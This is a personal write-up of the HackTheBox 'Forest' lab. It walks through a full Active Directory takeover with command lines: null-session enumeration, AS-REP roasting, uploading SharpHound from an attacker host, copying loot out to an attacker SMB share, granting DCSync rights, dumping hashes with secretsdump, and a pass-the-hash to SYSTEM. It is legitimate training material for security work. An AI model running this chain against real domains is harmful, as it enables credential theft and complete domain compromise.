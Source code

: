ya bissmillah , first box in playlist 

as any box we will start with nmaP

`sudo nmap -sC -sV -p-  -T4 10.10.10.161 -oN FOREST` 
![[Pasted image 20240522201952.png]]
kerberos ,ldap ,smb, rpc   that's a DC but without DNS (port 53 ) which is weird

let's check null session agains smb and ldap and rpc

`ldap null session is allowed  nxc ldap 10.10.10.161  -u '' -p ''  --users`
![[Pasted image 20240522202946.png]]====

==we can enumerate users with null session and rpc ==
![[Pasted image 20240522203256.png]]

nothing for smb until now 

let's create a wordlists and try asreproasting
`rpcclient 10.10.10.161 -U  '' -N -c  enumdomusers | cut -d '[' -f 2 | cut -d ']' -f 1`
![[Pasted image 20240522204005.png]]


==asreproasting==
`nxc ldap 10.10.10.161  -u users.txt -p ''  --asreproast asreproast `
![[Pasted image 20240522204136.png]]

==hashcat==
using rockyou.txt
![[Pasted image 20240522204214.png]]

enumerate using ==ldapdomaindump==
`python3 ldapdomaindump.py --user 'HTB\svc-alfresco' --password s3rvice --outdir ldapdomaindump 10.10.10.161`
![[Pasted image 20240522213314.png]]

if we took a look on the user ==svc-alfresco==
![[Pasted image 20240522213429.png]]
![[Pasted image 20240522213602.png]]

our group is member of the group , ==Remote Management Users== 
so we can use ==evil-winrm== to login
`evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p s3rvice
`
![[Pasted image 20240522213808.png]]

when I got creds , I tried bloodhound-python but that didn't work because of the stupid DNS
now I will use sharphound.exe
![[Pasted image 20240522214203.png]]
on the windows box 
`wget -Uri http://10.10.14.15/SharpHound.exe -Outfile SharpHound.exe`

![[Pasted image 20240522214319.png]]

`.\SharpHound.exe -c all`
![[Pasted image 20240522214543.png]]

now we have bloodhound.zip files , let's move it to our machine , the easiest way  to do that is by hosting a smbserver using impacket

`impacket-smbserver -smb2support share .`
![[Pasted image 20240522214723.png]]

`move 20240522135040_BloodHound.zip \\10.10.14.15\share` 
and we should have the file on our machine 


now we could use bloodhound  
great article about setting up bloodhound  https://blog.spookysec.net/Deploying-BHCE/

![[Pasted image 20240522221736.png]]

the ==genericall== we could use it to add our user to the exchange group
![[Pasted image 20240522221909.png]]

`net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" "d0s3nt" -U "HTB.LOCAL"/"svc-alfresco"%"s3rvice" -S "10.10.10.161"`

![[Pasted image 20240522222023.png]]
we could check using 
`net rpc group members "EXCHANGE WINDOWS PERMISSIONS" -U "HTB.LOCAL"/"svc-alfresco"%"s3rvice" -S "10.10.10.161"`
![[Pasted image 20240522222059.png]]

we can use ==WriteDacl== to add ourself the necssary ACL to perform DCSync

![[Pasted image 20240522222628.png]]
setting Up this tool was nightmare, I fellow this  https://www.youtube.com/watch?v=O_VeRoT1f1k
I found the script here https://github.com/ShutdownRepo/impacket/blob/04518279ef663e80195b61d4d864d6e9e8ac5d9f/examples/dacledit.py

`dacledit.py -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=HTB,DC=LOCAL' 'HTB.LOCAL'/'svc-alfresco':'s3rvice'`
![[Pasted image 20240522222912.png]]
nb : if it didn't work re run the net rpc command to add the user to the exchange groupe again
`impacket-secretsdump HTB.LOCAL/svc-alfresco:s3rvice@10.10.10.161`
![[Pasted image 20240522223613.png]]
using the hash we could get shell as SYSTEM using psexec

`impacket-psexec HTB.LOCAL/administrator@10.10.10.161 -hashes: 32693b11e6aa90eb43d32c72a07ceea6`
![[Pasted image 20240522224115.png]]


if we are in a real word scenario we could backtrack our modification by 
`dacledit.py -action 'remove' -rights 'DCSync' -principal 'svc-alfresco'-target-dn 'DC=HTB,DC=LOCAL' 'HTB.LOCAL'/'svc-alfresco':'s3rvice'`

when I was doing the box powerview function `Add-DomainObjectAcl` didn't work and hang on evil-wirm without response after watching ippsec , seems that the command on bloodhound graphing tool wasn't correct which is weird 

this should work  https://burmat.gitbook.io/security/hacking/domain-exploitation
``Add-DomainObjectAcl -TargetIdentity "DC=burmatco,DC=local" -PrincipalIdentity useracct1 -Rights DCSync``
